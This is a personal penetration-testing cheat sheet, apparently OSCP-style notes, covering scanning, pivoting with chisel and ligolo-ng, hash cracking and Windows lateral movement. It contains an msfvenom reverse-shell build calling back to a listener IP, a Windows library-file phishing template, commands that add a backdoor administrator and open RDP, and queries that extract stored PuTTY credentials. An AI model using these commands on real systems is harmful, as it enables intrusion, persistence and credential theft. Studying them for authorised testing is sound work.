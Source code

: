# Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging

## gobuster
`gobuster dir -u http://192.168.233.153 -w /usr/share/wordlists/dirb/big.txt -t 5 --output gobuster/192.168.233.153` Gobuster dir scan

## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route ( *In Linux itself* )  
`start` Start tunnel\

--Network is now reachable through proxy--

`listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp` Create a listener on the agent, listening on 0.0.0.0 port 1234 and forwarding to proxy host on port 4321
`listener_list` to show all listeners

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Alternative to BURP
Zed Attack Proxy  

## Add local administrator
`net user /add user P@ssw0rd!`
`net localgroup administrators user /add`

## Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
`netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`

## EvilWinRM
`evil-winrm -i ip -u USER-H HASH -r DOMAIN` Sign in with a hash, try without domain as well
using `download FILENAME` a file can be downloaded from the remote system. 

## PSExec
`impacket-psexec USER@ip -hashes :HASH`

`python3 -m pyftpdlib -w -p 21`

`impacket-smbserver -smb2support -username kali -password 1234 oscp oscp`

## Get Putty credentials:
`reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`
`reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\`

## GIT
`wget -r` download folder over http  
`git show HASH` to show changes in a specific commit  
`git diff` to show all changes  
## Cracking ZIP
`zip2john file.zip > zip.hash` Create hash file for zip archive  
`| cut -d ':' -f 2` To make a zip2john file suitable for Hashcat  


## Loop lookup users based on sid  
(Windows edit seq, start from 500, for linux from 1000)
```
for i in $(seq 1 100); do
    rpcclient -N -U "" 192.168.136.11 -c "lookupsids S-1-22-1-$i";
done
```

## Get user and domain sid 
`rpcclient lookupnames root/admin`


## Get scheduled taks info
`schtasks /query /TN taskname /XML`
`(get-scheduledtask taskname).actions`
`(get-scheduledtask taskname).triggers`